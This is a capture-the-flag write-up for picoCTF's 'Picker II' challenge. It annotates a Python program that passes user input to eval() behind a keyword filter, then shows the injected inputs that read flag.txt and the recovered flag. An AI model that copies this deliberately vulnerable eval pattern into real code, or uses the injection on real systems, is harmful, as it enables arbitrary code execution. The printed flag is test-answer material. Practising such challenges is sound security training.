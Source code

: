 # Picker II
This was a challenge listed exclusively for the Pico Gym.  It's listed as Medium and categorized as a Binary Exploitation challenge.  
Direct Link:  https://play.picoctf.org/practice/challenge/401

## Description
The Description reads:
> Can you figure out how this program works to get the flag?

## Hints
There is one hint:
> Can you do what win does with your input to the program?

# Solving
## My Thoughts
I generally prefer real-world applicable challenges but this one was fun!

## Source Code
Let's take a look at the source code first, I'm cutting out irrelevant sections and adding comments:

``` python
import sys

# Exits the program when called
def exit():
  sys.exit(0)

# A win function, calling this will print out the flag
def win():
  # This line will not work locally unless you create your own 'flag.txt' in
  #   the same directory as this script
  # Reads in the flag file and stores the results in the flag variable.
  flag = open('flag.txt', 'r').read()
  #flag = flag[:-1]
  # Strips whitespace from the flag variable.
  flag = flag.strip()
  # Initiates an empty string named str_flag
  str_flag = ''
  # Loops through each character in the flag variable
  for c in flag:
    # Does weird stuff for some reason
    str_flag += str(hex(ord(c))) + ' '
  # Prints the flag
  print(str_flag)

# A function that is made to ensure the user can't directly call the win function.
def filter(user_input):
  if 'win' in user_input:
    return False
  return True

# Loops continuously unless there's an error
while(True):
  try:
    # Gets the user's input
    user_input = input('==> ')
    # Makes sure the user's input doesn't contain the text win.
    if( filter(user_input) ):
      # Eval will evaluate a string as though it's actual python code
      eval(user_input + '()')
    else:
      print('Illegal input')
  except Exception as e:
    print(e)
    break
```

So, they key here is that eval section.  It doesn't just simply call an existing function, it executes the input as actual code!

Let's mess around with it a bit:

``` bash
==> print('yo')
yo
'NoneType' object is not callable
```

As expected, we can execute arbitrary python code!  Let's try to read that file:

``` bash
==> print(open("flag.txt").read())
picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_95d44590}
'NoneType' object is not callable
```

Woah, that easy! We got our flag!
